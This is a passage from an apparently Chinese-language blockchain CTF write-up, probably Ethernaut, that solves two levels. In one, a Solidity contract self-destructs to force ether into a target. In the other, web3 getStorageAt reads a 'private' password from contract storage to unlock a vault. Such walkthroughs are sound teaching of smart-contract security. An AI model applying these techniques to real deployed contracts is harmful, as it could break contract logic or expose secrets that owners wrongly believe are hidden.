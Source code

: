 好一个源码，没有接受转账的， 考虑`selfdestruct` 自毁合约强转

一个合约在自毁的时候，可以将余额全部强制转到另一个地址上

因此构造一个第三方合约，然后自毁，强制把合约里的资金转给实例合约即可

```js
pragma solidity ^0.6.0;

contract Exploit {
    constructor() public payable {}  // 部署的时候转一点eth
    function exp(address _challenge) public {
        address payable challenge = payable(_challenge);	//强转类型为address payable
        selfdestruct(challenge);//自毁强转
    }
}
```



## Vault

目标是打开vault，locked等于false

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

- 区块链上的所有信息是公开的
- 可以用 `web3` 的 `getStorageAt` 来访问合约里变量的值

getStorageAt函数可以让我们访问合约里状态变量的值，它的两个参数里第一个是合约的地址，第二个则是变量位置position，它是按照变量声明的顺序从0开始，顺次加1

```js
web3.eth.getStorageAt(contract.address, 1, function(x, y) {console.log(y)})
//得到password的byte形式
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
//传入解锁即可
```
